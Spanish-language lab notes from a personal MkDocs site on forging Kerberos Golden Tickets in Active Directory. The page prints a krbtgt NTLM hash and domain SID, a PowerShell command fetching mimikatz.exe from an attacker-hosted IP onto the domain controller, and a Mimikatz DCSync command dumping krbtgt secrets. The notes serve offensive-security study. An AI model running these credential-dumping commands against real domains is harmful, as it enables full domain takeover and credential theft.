

repository: JAVIKRD/bitacora · page: mis-notas/creacion-de-tickets/index.html · generator: mkdocs

# Creación y Forja de Tickets: Golden Ticket y Silver Ticket

Notas prácticas de laboratorio sobre la **forja de tickets Kerberos** en Active Directory: extracción de hashes con Mimikatz y Secretsdump, generación de **Golden Tickets** y **Silver Tickets**, inyección en memoria (Pass-the-Ticket) y ejecución remota con `wmiexec.py`.

---

## Creación de Golden Ticket

Un **Golden Ticket** es un TGT forjado con el hash de la cuenta `krbtgt` que otorga acceso ilimitado como administrador a cualquier servicio del dominio.

### 1. Extracción del Hash de `krbtgt`

Obtenemos el hash NTLM de la cuenta `krbtgt` del dominio:

![Extracción hash krbtgt](assets/Pasted%20image%2020261011200417.png)

```text
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:1ae48c342566ead9aed8411485671910:::
```

> [!NOTE]
> Identificamos que pertenece a `krbtgt` por su **RID 502**, el identificador numérico fijo que Windows asigna siempre a esta cuenta (`500 = Administrator`, `501 = Guest`, `502 = krbtgt`).

Obtenemos el **SID del dominio**:

```text
S-1-5-21-2202691511-3005246676-1411338595
```

---

### 2. Transferencia y Ejecución de Mimikatz

Descargamos Mimikatz en la máquina del Controlador de Dominio:

![Descarga Mimikatz](assets/Pasted%20image%2020261011203850.png)

```powershell
Invoke-WebRequest -Uri "http://192.168.100.139/mimikatz.exe" -OutFile "C:\Users\Administrator\Desktop\mimikatz.exe"
```

Ejecutamos `dcsync` localmente con Mimikatz para verificar los datos de `krbtgt`:

```cmd
.\mimikatz.exe "lsadump::dcsync /user:krbtgt" "exit"
```

![Mimikatz DCSync](assets/Pasted%20image%2020261011204947.png)

> [!INFO]
> Es básicamente lo mismo que hace `secretsdump.py` desde Linux, pero ejecutado desde adentro del DC con Mimikatz directamente contra el proceso LSASS.

---
